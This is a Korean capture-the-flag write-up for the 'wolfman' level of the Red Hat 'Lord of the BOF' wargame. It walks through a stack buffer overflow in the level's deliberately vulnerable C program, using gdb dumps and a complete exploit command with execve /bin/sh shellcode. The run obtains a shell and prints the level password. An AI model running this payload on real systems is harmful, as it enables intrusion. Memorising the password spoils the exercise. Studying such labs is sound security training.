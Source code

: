 ============================================================================================================
[redhat-lob] (5) wolfman
============================================================================================================



.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 19 + shellcode + argv[1] address"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="argv[1] address"];
        e [shape=box, label="dummy * 19 + shellcode"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) 
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)  <
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./wolfman `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./wolfman `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orc/wolfman1 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffae8       -1073743128

    (gdb) i reg $ebp
    ebp            0xbffffb08       -1073743096

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffae8:     0xbffffb08      0x400309cb      0x00000002      0xbffffb34
    0xbffffaf8:     0xbffffb40      0x40013868      0x00000002      0x08048450
    0xbffffb08:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb18:     0xbffffb34      0x08048390      0x0804861c      0x4000ae60
    0xbffffb28:     0xbffffb2c      0x40013e90      0x00000002      0xbffffc2e
    0xbffffb38:     0xbffffc43      0x00000000      0xbffffc74      0xbffffc96
    0xbffffb48:     0xbffffca0      0xbffffcae      0xbffffccd      0xbffffcd9
    0xbffffb58:     0xbffffcf2      0xbffffd0e      0xbffffd2d      0xbffffd38
    0xbffffb68:     0xbffffd46      0xbffffd88      0xbffffd97      0xbffffdac
    0xbffffb78:     0xbffffdbc      0xbffffdc5      0xbffffde3      0xbffffdee
    0xbffffb88:     0xbffffdff      0xbffffe0d      0xbffffe1c      0xbffffe24
    0xbffffb98:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffba8:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffbb8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbc8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbd8:     0x000001f8      0x0000000c      0x000001f8      0x0000000d
    0xbffffbe8:     0x000001f8      0x0000000e      0x000001f8      0x00000010
    0xbffffbf8:     0x0fabfbff      0x0000000f      0xbffffc29      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x38366900      0x682f0036      0x2f656d6f      0x2f63726f
    0xbffffc38:     0x6f772f2e      0x616d666c      0x6100336e      0x61616161
                                                      ^               ^
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^ argv[1] = 0xbffffc53
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x00bf6161      0x5353454c
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- dummy*19 + shellcode(21)
    SFP     (4byte)  <- shellcode(4)
    RET     (4byte)  <- argv[1] 주소
    argv[1] (4byte)  
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x53\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀S▒▒▒

    bash$ whoami
    wolfman
    bash$ my-pass
    euid = 505
    love eyuna








